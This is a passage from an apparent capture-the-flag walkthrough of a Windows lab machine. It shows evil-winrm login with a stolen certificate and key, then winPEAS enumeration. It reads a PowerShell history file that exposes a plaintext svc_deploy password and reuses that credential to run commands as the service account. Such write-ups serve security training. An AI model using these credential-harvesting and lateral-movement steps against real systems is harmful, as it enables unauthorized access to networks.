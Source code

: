 Now since we got both Certificate and Key we can log in as **Legacyy** user using**WinRM**.

```shell
$ evil-winrm -i timelapse.htb -u legacyy -S -k out.key -c out.crt
```

# Privilage Esclation 
On running `winPEAS.bat` on shell found something interesting

```text
C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Read this history file

```powershell
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

so lets try running these commands

```shell-session
*Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {whoami}
Enter PEM pass phrase:
timelapse\svc_deploy
```

So we can run commands as **svc_deploy** user. Getting more information about this user

```shell-session
*Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {net user svc_deploy}
Enter PEM pass phrase:
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
```